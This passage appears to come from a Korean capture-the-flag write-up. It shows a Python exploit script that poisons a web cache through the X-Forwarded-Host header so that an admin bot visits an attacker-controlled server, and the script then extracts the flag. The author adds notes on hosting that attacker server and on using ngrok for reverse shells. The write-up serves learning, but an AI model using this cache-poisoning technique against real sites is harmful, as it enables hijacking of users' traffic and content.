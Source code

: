 ```python

def cache_poisoning(id):
    headers = {
        'Host' : '127.0.0.1',
        'X-Forwarded-Host' : f'{M_SERVER}'
    }
    res = s.get(f'{URL}/letters?id={id}', headers=headers)
    if f'{M_SERVER}' in res.text:
        info('Cache Poisoning Success!!')

if __name__ == '__main__':
    ## Get last message id
    next_id = get_id() + 1

    ## Cache Poisoning
    cache_poisoning(next_id)

    ## Write message to force the admin bot to visit page
    s.post(f'{URL}/submit',json={'message' : 'hacked'})
    
    ## Some delay
    sleep(4)
    
    ## Get Flag
    res = s.get(f'{URL}/message/{next_id+1}')
    FLAG = res.json()['message'].split('! ')[1].split('"')[0]
    info(f'Flag is {FLAG}')
```
{: file='exploit.py'}
<br/>

참고로 poisoning하는 부분에서 [ngrok](https://h0pp1.github.io/posts/ngrok-tty/)을 이용하여 로컬에서 동작하는 웹 서버를 포워딩하려고 했는데 아래처럼 `너 여기 접속할래?` 라고 한 번 물어본다. 그래서 결론은 캐싱이나 봇의 방문이나 정상적으로 이루어지지 않는다. (이게 싫다면 업그레이드를 하라고 한다^^...이것 때문에 1시간동안 삽질을 하였다🥲 결국은 구름ide 이용해서 공격자 서버를 열어주었다... 앞으로 ngrok은 리버스 쉘 연결할 때만 쓰는 걸로)
![ngrok](../../../assets/img/2023-02-03/ngrok.png){: w="800" h="400" }  
<br/>
# Reference
***
- [https://expressjs.com/en/api.html#req.hostname](https://expressjs.com/en/api.html#req.hostname)